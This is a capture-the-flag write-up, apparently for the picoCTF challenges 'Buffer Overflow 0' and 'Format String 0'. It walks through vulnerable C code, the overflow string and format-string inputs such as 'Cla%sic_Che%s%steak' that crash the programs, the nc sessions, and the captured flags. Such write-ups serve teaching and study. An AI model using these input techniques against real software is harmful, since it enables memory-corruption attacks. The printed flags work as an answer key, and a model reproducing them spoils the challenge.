 # Buffer Overflow 0

On analysis of the given source code, I determined the following:
The flag is contained in `flag.txt` and is read into a `char` array `flag`
It reads an input from the user and on occurrence of a SIGSEGV error, it is handled by a function called `sigsegv_handler`
The program exits with a print message.

It is seen that whenever the input is a very large string(buffer overflow created), a sigsegv error is caused.
This seems to be because of the `strcpy` in the vuln function whenever it handles large strings.

The `sigsegv_handle` prints out the flag, so causing a buffer overflow is all you need to get the flag.

```
goosbo@pop-os:~$ nc saturn.picoctf.net 61459
Input: ffffffffffffffffffffffffffffffffffff
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
# Format String 0

On launching the instance, the following is printed:
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```

To choose the right answer, I analysed the code until found this block:
```c
char choice1[BUFSIZE];
scanf("%s", choice1);
char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
if (!on_menu(choice1, menu1, 3)) {
    printf("%s", "There is no such burger yet!\n");
    fflush(stdout);
} else {
    int count = printf(choice1);
    if (count > 2 * BUFSIZE) {
        serve_bob();
    } else {
        printf("%s\n%s\n",
                "Patrick is still hungry!",
                "Try to serve him something of larger size!");
        fflush(stdout);
    }
}
```

The first part of the code basically checks if the input is one of the 3 possible options and prints an appropriate statement if it is not. The interesting part is in the `else` block.

`int count = printf(choice1);` here the size of choice1 is being stored in count. The very next statement is `if (count > 2 * BUFSIZE)` which implies that we need a string of size greater than 64(BUFSIZE is 32) to not exit the program before we get the flag but our 3 options do not seem to have length greater than 64.

But then I noticed the option `"Gr%114d_Cheese"`. `%114` is a format specifier and when it is passed into a printf statement, the function expects a number of length 114. But if it does not find this number, it prints garbage values from memory. So this option helps us bypass the requirement of a 64 length input while also using a valid choice.

```
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

```c
char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
```

The next stage does not have the same length requirements as before. But if we look at a function mentioned earlier:
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

It is seen that the flag is printed if a sigsev error happens.

Just like before if we consider the only option with format specifiers which is `"Cla%sic_Che%s%steak"`, we should be able to access garbage values in memory. In this case `%s` which tries to access strings from memory might crash the program with a sigsev error and that seems to be the case.

```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```

flag: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}`


